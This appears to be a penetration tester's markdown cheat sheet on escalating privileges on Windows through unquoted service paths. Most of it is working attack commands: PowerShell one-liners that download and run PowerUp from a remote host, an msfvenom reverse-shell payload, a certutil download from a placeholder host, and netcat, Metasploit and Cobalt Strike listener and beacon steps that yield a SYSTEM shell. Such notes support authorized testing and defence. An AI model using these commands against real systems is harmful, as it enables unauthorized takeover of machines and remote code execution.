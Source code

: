 # Windows Priv Esc- Unqouted Service Paths

```
C:\Program Files\A Folder\vulnerable-application.exe
```

The way windows searches for a program means it will look in this order:

```
C:\Program.exe
c:\Program Files\A.xe
c:\Program Files\A Folder\vulnerable-application.exe
```

So if you can write to any of these locations you could place a malicious binary that is run instead.

## Checking Permissions

Via icacls:

```
icacls "C:\"
icacls "C:\Program Files"
icacl "C:\Program Files\A Folder"
```

Via Powershell:

```
 Get-Acl 'C:\Program Files' | % {$_.access}
```

Check to see if write permissions are given to the user, or a group they are a member of. 



## Finding Unquoted Service Paths

```
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
```

```
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://ip/PowerUp.ps1');Get-ServiceUnquoted"
```

https://powersploit.readthedocs.io/en/latest/Privesc/Get-UnquotedService/

IF a path is found you could also run the following to find a path you can write to:

https://powersploit.readthedocs.io/en/latest/Privesc/Get-ModifiablePath/

```
Get-ModifiablePath
```

An alternative is to modify powerup.ps1 to execute powerup automatically. Add whatever command to the bottom of powerup, for example all checks:

```
Invoke-AllChecks
```

then run:

```
echo IEX(New-Object Net.WebClient).DownloadString('http://IP:Port/PowerUp.ps1') | powershell -noprofile
```

## Exploiting with Modified Binary

To quickly create a malicious payload:

```
msfvenom -p windows/shell_reverse_tcp LHOST= LPORT= -f exe -o name.exe
```

In Cobalt Strike, use TCP beacons bound to localhost for priv esc. The beacon will have svc in the filename when using the CS generate all option. 




### Transfer the file 

You could host the file using SimpleHTTPServer and then use certutil:

```
certutil.exe -urlcache -f http://blah.com/name.exe name.exe
```

You could also use an SMBserver etc 

```
copy \\ip\folder\name.exe .
```

### Listener 

set up a netcat listener

```
nc -nvlp port
```

Use metsploit

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST
set LPORT
exploit -j
```

### Write-ServiceBinary

- Part of PowerUp
- https://powersploit.readthedocs.io/en/latest/Privesc/Write-ServiceBinary/

```
Write-ServiceBinary -Name 'Name of Service' -Command '\\IP\folder\name.exe' -Path 'C:\Program Files\A\name.exe'
```

### Stop/Start Service

- you might need to either wait for the system to restart 
- Or you could try and stop/strart the service if you have privileges

```
sc qc "service name"
sc stop "service name"
```



## Exploiting with Metasploit

- Once you have a meterpreter/other listener

```
use exploit/windows/local/trusted_service_path
set session x
exploit
```

## Exploiting with Cobalt Strike

- Use a TCP beacon bound to localhost as the service binary
- After the service is stopped/restarted verify that there is a tcp listener on localhost using the port configured in CS

```
netstat -anp tcp
```
- Connect to the beacon

```
connect localhost <port>
```

- You should then see the listener running as SYSTEM or whatever privileges you have gained. 
